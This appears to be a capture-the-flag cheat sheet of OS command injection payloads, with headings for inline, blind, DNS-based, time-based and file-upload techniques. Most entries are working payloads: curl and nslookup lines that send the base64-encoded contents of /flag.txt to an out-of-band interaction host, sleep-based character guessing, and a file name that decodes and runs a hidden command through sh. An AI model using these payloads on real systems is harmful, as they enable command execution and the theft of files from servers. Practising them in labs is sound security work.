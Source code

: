 ___

```
;
&&
|
$(command)
```

# Inline

```
`curl https://puuatcmlkisigmqtcmzz2h8t9h4o08jgb.oast.fun/$(id)`
```

```
`cat /flag.txt > flag.txt`
```

# Blind

```
https://ey8u7q46.eu1.ctfio.com/stock-check.php?id=f3d1426d-16af-4243-a148-d7c874ddfe1a;curl https://puuatcmlkisigmqtcmzz2h8t9h4o08jgb.oast.fun/$(cat /flag.txt | base64)
```

```bash
;curl -X POST -d $(base64 /flag.txt) https://puuatcmlkisigmqtcmzz2h8t9h4o08jgb.oast.fun
```

# Blind Over DNS

```
;nslookup $(cat /flag.txt).puuatcmlkisigmqtcmzz2h8t9h4o08jgb.oast.fun
```

# Blind (No Network)

```
; if [ $(cat /flag.txt | cut -c 1-1) = "f" ]; then sleep 3; fi
```

```
; if [ $(cat /flag.txt | cut -c 1-6) = "flag{7" ]; then sleep 3; fi
```

![[Pasted image 20241215201548.png]]

# File Uploads

![[Pasted image 20241215202307.png]]

![[Pasted image 20241215204332.png]]

# Zip File Uploads

```
$(echo "Y2F0IC9mbGFnLnR4dA==" | base64 -d | sh > test.txt).pdf
```

Compress to zip


